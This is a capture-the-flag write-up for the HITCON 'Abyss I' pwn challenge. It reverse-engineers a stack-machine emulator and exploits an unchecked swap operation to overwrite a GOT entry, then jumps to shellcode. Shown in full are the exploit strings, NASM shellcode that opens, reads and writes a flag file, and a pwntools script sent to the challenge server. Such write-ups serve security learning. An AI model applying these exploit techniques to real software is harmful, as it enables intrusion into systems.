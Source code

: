 # Abyss I
## Pwn 230

#### bigrick

From the directions, it looks like they wrote their own hypervisor and kernel on top of the userspace challenge. Checking the executable permissions showed modern protections, which made me unsure of the hint of "NX?"

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### RE

In the binary I see that `main` prints a line, reads some characters, to a global buffer, then calls `work` if reading was successful. So the real business is in work.

`Work` gets the `strlen` of our input buffer and stores the length on its stack. Then there's a big loop that seems to iterate over every character of input.

![work](img/work.png)

The first parsing step branches on some flag returned from `__ctype_b_loc()` which is a helper function to the `isalnum` and `isalpha` family. In this case, it looks like an inlined `isdigit` based on the branch to `fetch_int`. Indeed `fetch_int` parses a decimal number until a non digit is encountered.

![fetch_int](img/fetchint.png)

After `fetch_int` the value is sent to `push`. Push takes the value, calculates an offset based off of the `machine` global (renamed to `stack-ptr` here) and another global (renamed `stack` here), then writes the value there. The stack-ptr is incremented as well. This was the first indication to me that the user.elf program is an emulator of sorts.

The other side of `work` loop parses letters and symbols. Here is the letter parsing:

![letters](img/letters.png)

So letter parsing just takes the numerical value of lowercase letters starting with a = 0, b = 1 ... z = 25. That will be clear later.

The last part of the `work` loop is for symbol parsing. This stub passes the character to `commands` and if the return value is not NULL, it will call the function pointer returned.

![symbols](img/symbols.png)

`Commands` features a large jump table that returns function pointers based on the symbol passed, or NULL if the symbol doesn't map.

![commands](img/commands.png)

Among the commands were arithmetic operations, `pop_`, `swap_`, `store` and `fetch`, and two different `write`. It seems like this is definitely some kind of emulated stack machine. `store` and `fetch` take a value off the stack and access a uint32 array of size 26 in the data section. This must be for some registers a-z that are parsed as 0-26.

Cool! I had not pwned any emulators before, so this was very exciting! I had to find some way to use the emulated stack machine to leave it's confines and read and write the user.elf process memory.

### Breakout

It seems like the `pop` and `push` operations are properly bounds checking the emulated stack pointer. But the `swap_` command does not! It swaps the values at stack-ptr*-1* and stack-ptr*-2* without any regard for what stack-ptr is. This is especially bad because the stack pointer is directly below the first item on the stack:

All I have to do is put a negative value on the stack, call `swap`, and now the stack pointer points outside our emulated stack! The payload for this looks something like `4294967270\`. Append that with a handful of '.' and this will leak out the .data section one %d at a time :)

Vulnerable situation before `swap_`:
```
0x2020a0 uint32_t stack-ptr = 0x1   ──╮
0x2020a4 uint32_t stack[0] = -0x2     │
0x2020a8 uint32_t stack[1] = 0x0  <───╯
0x2020ac uint32_t stack[2] = 0x0
```

Vulnerable situation after `swap_`:
```
0x202098                          <───╮
0x20209c                              │
0x2020a0 uint32_t stack-ptr = -0x2  ──╯
0x2020a4 uint32_t stack[0] = 0x1      
0x2020a8 uint32_t stack[1] = 0x0
0x2020ac uint32_t stack[2] = 0x0
```

Once the emulated stack pointer is negative, anything in the .data section is fair game!

### Payload

Leaking data alone does not help much, especially since I only have one input string to send. I needed to craft a program to overwrite the GOT. Fortunately there are plenty of operations to choose from. Since the stack machine operates on 32 bit values and the emulator is 64 bit, I had to consider carefully how to not clobber either dword of the GOT value I intended to change.

The GOT initially looks like this:
```
0x202018 int64_t (* const puts@GOT)
0x202020 int64_t (* const write@GOT)
0x202028 int64_t (* const strlen@GOT)
```

But to the stack machine it looks like this:
```
0x202018 int32_t (* const puts@GOT)   <-- lower dword
0x20201c int32_t (* const puts@GOT)   <-- upper dword
0x202020 int32_t (* const write@GOT)  <-- lower dword
0x202024 int32_t (* const write@GOT)  <-- upper dword
0x202028 int32_t (* const strlen@GOT) <-- lower dword
0x20202c int32_t (* const strlen@GOT) <-- upper dword
```

This is where I used the store to register ability. I clobbered the lower half of `strlen@GOT` (won't be called again anyway), and targeted `write@GOT` as my overwrite (I control when `write` is called because of `write_`).

My first successful (sort of) payload was:
```
10,4294967265\a:4294943308+a;,
  │          │ │          │ ││
  │          │ │          │ │╰─> 6. call write
  │          │ │          │ ╰─> 5. restore upper half of write
  │          │ │          ╰─> 4. add offset to libc magic gadget
  │          │ ╰─> 3. store upper half of write
  │          ╰─> 2. take over stack ptr
  ╰─> 1. resolve libc write
```
_Note: this only works with ./user.elf, not the challenge kernel & hypervisor_

I was pretty sad that didn't work in production :( Evidently the kernel did not implement the execv system call, or it was blocking the request. I was also stumped. It seemed very difficult to put together three similar calls to `open("flag", 0)`, `read()`, then `write` this way. Perhaps it could be done, but I took a break and was searching for similar ctf challenge writeups. I found [this writeup](https://david942j.blogspot.com/2018/09/write-up-tokyowesterns-ctf-2018.html) that the challenge author, david942j, recently did!

The key takeaway was that even though the user.elf specified NX (non executable pages), the kernel must implement it to take effect. I took a guess and made up some shellcode (with no NULLs), that I could jump to and test the theory. And it worked :)

My shellcode loader was:
```
4294967265\a:2107690+a;,
                │      ╰─> 2. call shellcode
                ╰─> 1. offset to shellcode from write@GOT.PLT
```

Shellcode, compile with `nasm -f bin sc.asm`
```
BITS 64
main:
        ; nop sled and buffer
        times 70 nop

        ; open("flag", 0, 0);
        mov eax, 0x67616c66
        push rax
        mov rdi, rsp
        xor rsi, rsi
        mov rax, rsi
        mov rdx, rax
        inc rax
        inc rax
        syscall

        ; read(fd, buf, 64);
        mov rdi, rax
        lea rsi, [rel main]
        xor rdx, rdx
        inc rdx
        shl rdx, 7
        xor rax, rax
        syscall

        ; write(1, buf, 64);
        xor rax, rax
        inc rax
        mov rdi, rax
        lea rsi, [rel main]
        mov rdx, rax
        shl rdx, 7
        syscall
```

Put all together with pwntools:
```{python}
#!/usr/bin/env python
from pwn import *

r = remote('35.200.23.198', 31733)
r.recvuntil('down.\n')

with open('sc', 'rb') as sc:
    sc = sc.read()

payload = '4294967265\\a:2107690+a;,'+sc
r.sendline(payload)
print r.recvall()
```

This yielded that sweet, sweet, flag: `hitcon{Go_ahead,_traveler,_and_get_ready_for_deeper_fear.}`

### Conclusion

Overall I had a ton of fun with this challenge, and I look forward to reading writeups of parts 2 and 3 from smart people who got that far :) Thanks to david942j for the great chal and HITCON for the fun ctf!
